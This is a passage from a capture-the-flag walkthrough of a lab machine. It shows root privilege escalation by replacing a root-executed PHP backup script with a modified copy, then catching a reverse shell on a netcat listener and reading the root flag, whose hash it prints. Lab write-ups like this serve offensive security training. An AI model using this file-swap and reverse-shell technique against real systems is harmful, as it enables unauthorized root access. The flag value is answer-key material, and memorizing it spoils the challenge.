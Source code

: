 ```s
					}
				} else if (is_file($source)) {
					$zip->addFromString(basename($source), file_get_contents($source));
				}
			}
			return $zip->close();
		}
	}
	return false;
}
?>
```


- The next step is to remove the backup.inc.php from _script/lib/_, then move the modified file to _scripts/lib/_

```s
sysadmin@opacity:~$ nano backup.inc.php 
sysadmin@opacity:~$ nano backup.inc.php 
sysadmin@opacity:~$ rm scripts/lib/backup.inc.php 
rm: remove write-protected regular file 'scripts/lib/backup.inc.php'? yes
sysadmin@opacity:~$ mv backup.inc.php scripts/lib/
```

- Start a netcat listener and wait for the reverse shell.

```s
~ nc -nvlp 4444
listening on [any] 4444 ...
whoami
connect to [10.6.42.185] from (UNKNOWN) [10.10.95.7] 53882
/bin/sh: 0: can't access tty; job control turned off
# root
# ls -l
total 8
-rw------- 1 root root   33 Jul 26  2022 proof.txt
drwx------ 3 root root 4096 Feb 22  2023 snap
# cat proof.txt	
ac0d56f93202dd57dcb2498c739fd20e
# 
```
Found proof.txt: ``ac0d56f93202dd57dcb2498c739fd20e``

